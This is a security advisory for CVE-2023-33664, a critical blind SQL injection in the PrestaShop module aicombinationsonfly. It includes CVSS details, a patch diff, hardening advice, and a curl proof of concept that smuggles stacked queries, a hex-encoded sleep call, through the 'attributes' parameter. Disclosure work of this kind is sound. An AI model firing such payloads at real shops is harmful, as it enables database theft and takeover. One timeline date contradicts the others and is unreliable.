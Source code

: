 ```yaml
---
layout: post
title: "[CVE-2023-33664] Improper neutralization of a SQL parameter in aicombinationsonfly module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,aicombinationsonfly"
severity: "critical (9.8)"
---
```


In the module "Combinations generated on fly for your store" (aicombinationsonfly) for PrestaShop, an atacker can perform SQL injection before 0.3.1. Release 0.3.1 fixed this security issue.

## Summary

* **CVE ID**: [CVE-2023-33664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33664)
* **Published at**: 2023-06-28
* **Advisory source**: Friends-Of-Presta.org
* **Platform**: PrestaShop
* **Product**: aicombinationsonfly
* **Impacted release**: < 0.3.1 (0.3.1 fixed the vulnerability)
* **Product author**: ai-dev
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Up to 0.3.0, a sensitive SQL calls in file `includes/ajax.php` can be executed with a trivial http call and exploited to forge a blind SQL injection throught the POST or GET submitted `attributes` variables.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v https://domain.tld/modules/aicombinationsonfly/includes/ajax.php?token=<predictible token>&module=AIMD&action=createCombination&product=1&attributes=1);select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;%23
```

## Patch

```diff
--- a/modules/aicombinationsonfly/includes/ajax.php
+++ b/modules/aicombinationsonfly/includes/ajax.php
@@ -50,7 +50,7 @@ switch (Tools::getValue('action')) {
             die();
         }
     
-        $attributes = array_map('intval', explode(',', Tools::getValue('attributes')));
+        $attributes = explode(',', Tools::getValue('attributes'));
         if ($combination_id = AiCombinationsOnFlyFunctions::createCombination((int)Tools::getValue('product'), $attributes, 0, 1, Tools::getValue('module'), $shop_id)) {
             /* Get data */
             $data = Db::getInstance()->getRow(

--- a/modules/aicombinationsonfly/includes/functions.php
+++ b/modules/aicombinationsonfly/includes/functions.php
    public static function createCombination($product_id, $values, $default_on = 0, $aicof_value = 0, $module = '', $shop_id = 0)
    {
+       $values = array_map('intval', $values);
        //  If module is defined, change values if needed
        $combination_values = array();
```

## Other recommandations

* Upgrade PrestaShop to the latest version to disable multiquery execution (separated by “;”)
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skills because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-05-08 | Vunlnerability found during a audit by [202 ecommerce](https://www.202-ecommerce.com/) |
| 2023-05-10 | Contact the author |
| 2023-05-12 | The author confirm the issue and supply a fixed release |
| 2023-03-12 | Request a CVE ID |
| 2023-06-28 | Publication of this advisory |


## Links

* [Author product page](https://www.boutique.ai-dev.fr/en/ergonomie/61-combinations-on-fly.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-33664)

